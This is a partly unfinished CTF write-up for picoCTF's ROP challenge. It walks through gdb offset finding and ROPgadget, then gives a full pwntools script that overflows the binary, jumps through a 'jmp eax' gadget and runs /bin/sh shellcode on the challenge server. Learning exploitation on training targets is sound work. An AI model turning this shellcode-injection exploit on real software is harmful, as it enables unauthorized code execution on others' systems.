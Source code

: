 # CTF Write-Up: [Challenge Name][Challenge Type]

## Description
>What's ROP?
Can you exploit the following program to get the flag? Download source.


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{5n47ch_7h3_5h311_4cbbb771}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb

## Write-Up

### Preparatory Phase
As per the name of the challenge I had to research how to conduct return-oriented programming (ROP). It a relatively intermediate-level skill which builds upon the the skills I've learnt in buffer overflow exploitaiton. The following step by step was as summary of [this](#https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). The basic premise of this is to chain together so-called gadgets which enables us as the attacker to force the program to jump to un-intended areas of code. Gadgets are an instruction which typically ends with a `ret` for example: `pop rdi; ret.`

1. Find the offset to the return address via `gdb`
2. See where the buffer starts to be filled from i.e. `eax` in this case
3. 




### Attack Phase
Using `checksec vuln` I was able to ascertain important information such as the binary's architecture and protections. An interesting discovery was that the stack was exectuable. Therefore I suspected we could execute our own shell code 
![alt text](images/image.png)

I now used `gdb` to find the offset which was determined to be 28 bytes. Therefore we need 28 bytes to reach the return pointer which for a 32-bit system is the `eip` register. 

We then need to obtain the ROP gadget for `jmp eax`. This was achieved via `ROPgadget --binary vuln | grep "jmp eax"`.

### Final Solution/Payload
``` py
from pwn import *

local = False
offset = 24
short_jump = b'\xeb\x08\x90\x90'
payload = b'A' * offset
payload += short_jump
payload += p32(0x0805333b)
payload += b'\x90'*100
payload += asm(shellcraft.i386.linux.sh())

if local:
    io = process('./vuln')
else:
    io = remote('saturn.picoctf.net', 60948)
io.sendline(payload)
io.interactive()
```

### Lessons Learnt
I had to first understand what return oriented programming was. By extension this required understanding what gadgets were. 

I had to peek at the solution to obtain the `short_jump`. We need this as " This is done in order to jump over the return address that we overwrote before. This is due to the fact that if we don’t jump over this address, then the bytes from which it consists are going to be interpreted as code and are going to get executed, leading to unpredictable results." Source: [here](https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5)
## References
-

